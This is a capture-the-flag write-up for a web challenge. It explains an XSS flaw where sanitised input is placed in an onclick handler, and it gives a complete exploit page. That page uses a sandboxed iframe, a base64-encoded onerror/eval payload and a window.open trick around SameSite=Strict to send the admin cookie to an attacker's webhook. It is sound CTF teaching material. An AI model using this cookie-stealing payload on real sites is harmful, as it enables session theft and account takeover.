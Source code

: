 # Write Up

Observation on the application:
- Flag is stored in admin cookie.
- Flag cookie is set to SameSite=Strict that means we can't access it from another domain, even from an iframe.
- The application is vulnerable to XSS in this code:

'''

    function createWaifuCardHTML(file, buttonText, buttonAction) {
        const sanitizedFile = DOMPurify.sanitize(file);
        const imgHTML = `<img src="${sanitizedFile}" class="card-img-top">`;
        const buttonHTML = `<button class="btn btn-outline-light" onclick="${buttonAction}('${sanitizedFile}')">${buttonText}</button>`;
        return `<div class="card text-center waifu-item">${imgHTML}<div class="btn-container">${buttonHTML}</div></div>`;
    }
'''

- But we can't directly exploit it because there's some restriction here:

'''

    function displayClaimedWaifus(paths) {
        if (REGEX_SAVE_PROPS.test(initialHash)) {
            throwAlert("Invalid characters detected in the hash. Please try again.");
        }
        ...snip...
    }
    ...snip...    
    ...snip...
    function throwAlert(message) {
        document.location.hash = "";
        alert(message);
        document.location = document.referrer;
    }
    ...snip...
    
'''

Here the step to get xss and steal the flag

1. Create a page that contains the following code:

'''html

    <body></body>
    <script>
    const TARGET = "http://proxy"
    const i1 = document.createElement('iframe')
    function waifuDomainScript() {
        /**
            I use window.open to open a new window, this will make the browser create new window context that
            have cookies with SameSite=Strict.
        */
        const w = window.open("/")
        w.onload = () => {
            window.location = webhook + "?" + w.document.cookie
        }
    }
    let payload = btoa(`webhook='${location.origin}';(${waifuDomainScript})()`)
    payload = btoa(`" onerror="eval(atob('${payload}'))" x="`)
    i1.src = TARGET + '#' + payload
    /**
        Create a sandboxed iframe to prevent alert from being triggered.

        We only need to allow scripts, same origin, and popups, you can check the doc here:
        https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox

        Because the iframe have recursion prevention system that stated here:
        https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion
        the frame will eventually stop the recursion redirect through the document.referrer and execute our payload.

        There is other way to bypass this, but this is the shortest way to do it.
        As example you can use csp to prevent the frame from redirecting to document.referrer.
    */
    i1.sandbox = 'allow-scripts allow-same-origin allow-popups'
    document.body.appendChild(i1)
</script>
'''

2.Serve the page using a web server, make sure the server is accessible from the internet.
3.Send the link to the victim.
4.Wait for the victim to open the link.
5.The flag will be sent to the webhook.

**Read more**
    https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value
    https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox
    https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion

